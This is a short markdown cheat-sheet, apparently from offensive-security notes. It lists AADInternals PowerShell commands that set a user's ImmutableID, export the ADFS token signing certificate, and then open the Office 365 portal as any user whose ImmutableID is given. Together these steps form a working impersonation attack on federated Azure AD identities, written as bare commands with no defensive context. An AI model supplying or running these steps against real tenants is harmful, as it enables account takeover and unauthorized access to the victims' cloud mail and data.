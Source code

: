 #### Set ImmutableID
```
Set-AADIntAzureADObject -CloudAnchor "User_7b0ad665-a751-43d7-bb9a-7b8b1e6b1c59" -SourceAnchor $ImmutableID
```

#### Export the token signing certificate
```
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified 
```
Open-AADIntOffice365Portal -ImmutableID <IMMUTABLE ID> -Issuer <ISSUER> -PfxFileName <PATH TO ADFSSigningCertificate.pfx> -Verbose
```
